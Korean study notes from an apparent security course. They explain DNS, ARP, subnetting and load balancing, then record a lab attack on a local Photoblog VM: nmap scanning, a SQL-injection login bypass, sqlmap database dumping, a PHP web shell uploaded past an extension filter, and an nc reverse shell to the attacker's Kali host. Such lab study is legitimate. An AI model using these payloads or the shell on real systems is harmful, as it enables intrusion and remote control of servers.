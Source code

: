 # DAY_5

사용자가 시스템에 요청해서 시스템을 사용하려고 하는데 요청하는 사용자가 많아지면 과부화 생김  
그래서 사용자와 시스템 사이에 L4를 만들어 서비스를 분산하거나 애플리케이션 영역에서 L.B 요청 분산  
L4, LB는 결합 허용이 아님!  
DNS : ~~~ 쿼리 => 마스터가 있고 대체할 수 있는 세컨더리 있음  
이것처럼 LB master와 LB slaver로!  

### 하둡
누군가 요청하면 데이터 노드 쪽에 데이터 저장하거나 분산된 데이터 처리하는 거 필요 -> **네임노드** : 세컨더리 둠, 이중화 되어있다!  
데이터 노드:  

### 시험인감!!? [웹 브라우저에서 구글 사이트 접속 과정]
웹 브라우저에 google.com을 쳤을 때 페이지가 나오는 세부 흐름  
- keyword
   - DNS 스콜  
   - TCP/IP step, Gate way

``` 
1. goolecom의 IP가 뭐지?  
 **(1-1) 메모리 내에 DNS Cache를 먼저 살핀다. :ipconfig/flushdns  
   (1-2) /etc/hosts 본다.**  
    > C:\Windows\System32\drivers\etc의 host 파일에 DNS 적어놓을 수 있음   
    > 그러면 DNS 서버를 참조하는게 아니라 hosts 파일을 참조해서 한다.   

  사용자가 입력한 구글 닷컴의 ip를 알아야 함  
  * DNS 서비스에게 google.com의 IP가 무엇이지?  
    => DNS 서버에게 Query를 해야한다.(168.126.63.1)  
      
  * 실제 통신은(low level 말하는 것) MAC 주소로 통신을 한다.  
    => DNS의 IP주소를 MAC주소로 변환해서 알아야 한다. //DNS : 도메인 -> ip  
      (ARP 프로토콜로 MAC 주소를 알아온다.)    //ARP: ip -> MAC  
```
 
      #### cmd
      > **arp -a**   
      > ip 주소에 대한 MAC 주소(물리적 주소) 나옴  
      그러나 DNS에 대한 ip 주소 없음  
      
      > ipconfig  
      > 서브넷 마스크는 무슨 의미?  
      >  - 뒷자리만 다르면 하나의 네트워크에 있다.
      
      기본적으로 통신은 IP로 진행되는데 실제 통신은 MAC주소로 진행된다.  
      IP를 MAC주소로 바꾸는게 arp다.  
      
      - 게이트를 통해 DNS 서버로 가야함!!!  
      - 서브넷 마스크나 게이트웨이 없으면 어떻게 되는지, MAC주소가 무슨 역할 하는지  
      
      arp 설명 짱 잘 되어 있음: https://medium.com/pocs/tcp-ip-%EC%9D%B4%EB%A1%A0-arp-%EC%BA%90%EC%8B%9C-%ED%85%8C%EC%9D%B4%EB%B8%94-1e07ab2ae28d

네트워크는 계층적으로 통신함(OSI 7 Layer, TCP/IP 4 Layer)  
![layer](https://user-images.githubusercontent.com/50771111/88609141-5cf2c880-d0be-11ea-8611-cdb2d97571a1.png)

   **subnet mask**     
    (1) 같은 네트워크 영역 => ARP 테이블의 MAC주소로 통신.  
    (2) 다른 네트워크 영역 => 게이트웨이(IP)로 데이터를 보낸다.  
        (게이트웨이의 IP 주소에 대한 MAC 주소로 데이터를 보낸다.)
    
    라우터: 라우터는 공인 IP주소를 할당받은 장치로서 서브넷 안의 호스트들이 외부망인 인터넷에 데이터를 송수신할 경우 그 호스트가 가상IP를 쓸 경우,   
    그 처리를 NAT(네트워크주소변환)를 통해 서브넷 가상 IP로 바꾸어주어 외부 서버와 호스트와의 통신을 가능
    
    나누어진 서브넷에서 다른 망에 있는 호스트끼리 통신을 해야할 때는 라우터를 통해서만 가능  
    물론 각 네트워크 ID가 같은 호스트들 끼리는 라우터를 통하지 않고도 바로 통신할수 있음  
   
 **====> DNS 쿼리가 이루어졌다.(172.217.161.174)**


```
2. 172.217.161.174 웹서버(구글 웹서버)에 연결을 해야 한다. (TCP)
   * 웹서버는 TCP기반의 HTTP 프로토콜을 이용하고,  
     기본 포트 80 이다. //포트: 프로그램 구분 번호  
     - TCP는 연결 지향 통신(연결 된 것 처럼 쓰겠다.)   
   2-1) TCP 연결을 하기 위해 TCP 3-way handshaking.  

3. (연결이 된 후에) HTTP 요청 (GET...)  

4. HTTP Response(응답) 받고 화면에 데이터를 표시.  

5. 연결을 해제.  
```

#### 준비
> vm에 Web 깔기, kali linux 깔기

#### cmd
> ifconfig // ip 확인  

ping: icmp프로토콜, 네트워크 상태를 모니터링 하고 확인하기 위해 사용하는 프로토콜
> ping www.google.com
> ping www.naver.com
특정 서버가 살아있는지 알기 위해 ping 날렸는데 응답 있으면 살아 있는 것!  
그러나 응답이 없다고해서 죽었다고 할 수는 X, 그냥 서버가 응답 안한거 일 수도 있어서!!
> traceroute www.naver.com
> 하려고 노력은 함!!

> ping 쓰면 살았는지 죽었는지 알 수 있음!

> fping : kali linux가 사용하는 명령어  
> fping -g 10.0.2.0/24  
> 몇 개 alive 한게 있음. 10.0.2.6는 나!  
> 1은 게이트 웨이이고 2,3,3 중에 

#### 포트 스캐닝
> nmap -sT -v 10.0.2.2-4 (alive한 것들 어떤 포트 사용하고 있는지 확인)  

> telnet 10.0.2.4 80(포트번호)  

> kali -> application -> 파이어 폭스 -> 주소창에 10.0.2.4 입력  
>   ==> My Awesome Photoblog 화면 출력!!  

#### 디렉토리 리스팅
> 위에서 사진에서 마우스 우클릭 -> copy Image Location -> 주소창에 입력 -> 뒤에 이미지명 지우기  
>   => Index 파일 리스팅 됨

### [SQL Injection]
```
ID와 PW를 입력하면
id : ' OR '1' = '1--
select count(*) from user_id where id=’' OR '1' = '1’ -- and Pw=’hi’
```
- kali shell  
> sqlmap -u "http://10.0.2.9/cat.php?id=1"  //sql injection에 취약한 URL 파라미터로 던져봄

```
sqlmap -u "http://10.0.2.9/cat.php?id=1"  

sqlmap -u "http://10.0.2.9/cat.php?id=1" --current-db  
    > photoblog 확인  
    
```

포토DB의 테이블 떠보기
> sqlmap -u "http://10.0.2.9/cat.php?id=1" -D photoblog --dump  
>   조금 위로 올려보면 id/pw 나와있는거 볼 수 있음

hash 함수: 고정된 길이. 다른 입력값 -> 다른 출력값, 출력값으로 입력값 예측 불가  
근데 어떻게 풀었지!?!  
   - 중국에서 해쉬값 풀어놓은 테이블 O -> 레인보우 테이블 
   
**id/pw로 로그인 가능한거 확인함!!**

#### shell 코드 올리기
1.  shell 코드 만들기
   > vi hack.php
   > ---------------------
   > <?php
   > system($_GET['cmd']);
   > ?>
   > --------------------
   > ==> php 파일 안올라감 
   
   > 해결법: php 파일 확장자명 대문자로 바꾸기  
   > mv hack.php hack.PHP  
   > 그리고 페이지에서 add 하면 됨!!
   
#### reverse telnet
클라언트가 접속해서 서버에 명령을 보내 실행하는거지  
클라이언트가 접속해서 서버가 명령 보내 실행하는거 X  

만약 방화벽 안에 우리가 장악한 서버가 있으면! 리버스 telnet을 이용해서 제어

kali
```
> nc -lvnp 7000 실행
> lisen 상태

> 홈페이지 주소 창 뒤에 cmd=nc 10.0.2.6(칼리 IP) 7000  -e /bin/sh
>  shell 창에서 connect 된 거 볼 수 있음


#### [참고자료]
https://wikidocs.net/73468 //R 통계 기초 점추정량 보고!! 전문과정 들어가기 전에 보깅

